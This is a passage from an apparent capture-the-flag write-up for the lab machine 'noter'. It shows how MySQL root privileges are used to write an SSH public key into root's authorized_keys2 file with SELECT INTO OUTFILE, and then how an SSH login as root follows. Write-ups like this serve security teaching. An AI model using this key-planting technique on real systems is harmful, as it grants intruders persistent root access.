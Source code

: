 
This user has all privileges on all databases in this MySQL instance:

    
    
    mysql> show grants for root@localhost;
    +----------------------------------------------------------------------------------------------------------------------------------------+
    | Grants for root@localhost                                                                                                              |
    +----------------------------------------------------------------------------------------------------------------------------------------+
    | GRANT ALL PRIVILEGES ON *.* TO `root`@`localhost` IDENTIFIED BY PASSWORD '*937440AD99CBB4A102402708AA43B689818489C8' WITH GRANT OPTION |
    | GRANT PROXY ON ''@'%' TO 'root'@'localhost' WITH GRANT OPTION                                                                          |
    +----------------------------------------------------------------------------------------------------------------------------------------+
    2 rows in set (0.09 sec)
    

#### Write File

With all privs comes the privilege to write files. I could solve the intended
path this was as well, once getting to MySQL.

I’ll try writing my SSH public key (I like ed25519 keys since they are very
short) to root’s `authorized_keys` file:

    
    
    mysql> select "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" into outfile "/root/.ssh/authorized_keys2";
    Query OK, 1 row affected (0.09 sec)
    

jkr did something subtle but clever here as well, writing to
`authorized_keys2`. This file was once for [different
algorithms](https://serverfault.com/questions/116177/whats-the-difference-
between-authorized-keys-and-authorized-keys2), but was deprecated in 2001 in
favor of just using `authorized_keys`. And yet, it actually still works by
default in most (if not all?) scenarios. This makes it a safer place to
overwrite without risking stomping the admin’s actual key.

_Update_ : Turns out that not only was it safer, but the only was to do this,
as the database wouldn’t let them overwrite existing files:

> You remember correctly - this was the reason I picked authorized_keys2:
> [pic.twitter.com/6aSb6LTKu1](https://t.co/6aSb6LTKu1)
>
> — jkr (@ATeamJKR) [September 28,
> 2022](https://twitter.com/ATeamJKR/status/1575137503379587075?ref_src=twsrc%5Etfw)

#### SSH

With that key, I can connect as root and get a shell:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen root@10.10.11.160
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
    ...[snip]...
    root@noter:~# 
    